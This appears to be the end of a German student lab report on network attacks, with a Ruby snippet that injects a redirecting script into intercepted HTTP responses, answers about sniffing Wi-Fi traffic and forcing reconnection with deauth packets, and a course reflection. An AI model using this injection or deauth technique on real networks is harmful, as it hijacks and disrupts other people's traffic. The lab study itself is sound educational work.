```rb
      response.body += '<script> let target = "192.168.1.1";let dest = "192.168.1.2";if (window.location.href.indexOf(target) > -1){window.location.replace("http://"+dest+"/");} </script>'
    end
  end
end
```

***

## Drahtlose Netzwerke

- **Warum funktioniert die Überwachung eines bestimmten Rechners nur, wenn dieser sich neu mit dem Netzwerk verbindet oder einige Zeit abgewartet wurde?**
1. Es funktioniert nur, weil sich die Rechner erst mit unserem Raspberry verbinden müssen. Dafür muss entweder die Verbindung verloren gehen oder erneuert werden, es dauert auf jeden Fall etwas Zeit.

- **Kann man eine Neuverbindung des Zielrechners mit dem Netzwerk erzwingen?**
1. Man kann spezielle "Deauth packets" versenden, welche dafür sorgen, dass Wifi Clients abgemeldet werden und versuchen, sich erneut zu authentifizieren.

- **Welche Unterschiede sind bei verschlüsselten und unverschlüsselten Verbindungen im überwachten Datenverkehr zu beobachten?**
1. Bei unverschlüsselter Verbindung kann man den http Traffic komplett lesen, bei verschlüsselter Verbindung (https) nur die verschlüsselten Daten, welche verschlüsselt über tls übertragen werden. Keine Auslese möglich.

***

# Reflektion von unserer Seite

## PRO

- Dokumentation hat geholfen, einen Überblick zu behalten

- Man ist auf sich alleine gestellt und muss entsprechend bei verschiedenen Möglichkeiten seine eigenen Wege finden

- Versuche in 2er Gruppen gut. Mehr Menschen wäre nervig und alleine wäre man lost

## CONTRA

- Insgesamt umfangreich und dadurch zeitaufwändig

- Teilweise unklar, was aus Sicht der Dokumentation bei den Fragen erwartet wird

- Fragen nicht immer 100% präzise formuliert